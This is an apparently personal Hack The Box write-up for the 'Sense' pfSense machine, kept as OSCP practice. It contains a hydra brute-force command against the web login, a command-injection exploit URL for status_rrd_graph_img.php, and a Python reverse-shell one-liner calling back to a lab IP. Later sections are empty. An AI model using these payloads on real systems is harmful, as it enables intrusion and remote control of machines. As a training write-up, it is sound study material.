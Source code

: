 # Sense Writeup

Name: Sense
Date:  
Difficulty:  Easy
Goals:  OSCP Prep
Learnt: 
- When you get banned learn how to proxy!
Beyond Root:
- Blooms Taxomony for myself and notes

Previous recon and progress from 

## Recon

The time to live(TTL) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](HackTheBox/Retired-Machines/Sense/Screenshots/ping.png)


![lightpd](lighttpd-1-4-35.png)

Nmap found /tree

![tree](silverstripetreedirectory.png)

![links](treeoflinks.png)

![changelog](changelogDOTtxt.png)

Blocked out non multiples of less than 3
![sense](oneofthreevulns.png)
2.2 - 2.4

Research `pfsense_ng`
[Documentation: Feature list 2.0](https://docs.netgate.com/pfsense/en/latest/releases/2-0-0.html)
FreeBSD!

Basically tried some of the exploits
I missed the system-users.txt file, because I did not proxy after being banned. Checked the video, after one of the exploits required authenication and I tried the others..

![sad](sadban.png)

Tried:
```bash
hydra -l Rohit -P /usr/share/wordlists/rockyou.txt -f 10.129.63.73 http-post-form '/index.php:__csrf_magic=sid%3A9b9199df3b86ab6e2c7871980c946b040c5ac939%2C1662233351&usernamefld=^USER^&passwordfld=^PASS^&login=Login:F=incorrect'
```
Then tried pfsense as password with rohit, not Rohit.

## Exploit

Secondly I changed the exploit to handle string concatenation properly in 3.10 python:

```python
login_url = f"https://{rhost}/index.php"
exploit_url = f"https://{rhost}/status_rrd_graph_img.php?database=queues;printf\'{payload}\'|sh"
```

This also did not work, 

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.19",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

## Foothold

## PrivEsc

## Post Root Reflection

## Beyond Root

https://www.teachthought.com/learning/what-is-blooms-taxonomy/
https://cft.vanderbilt.edu/guides-sub-pages/blooms-taxonomy/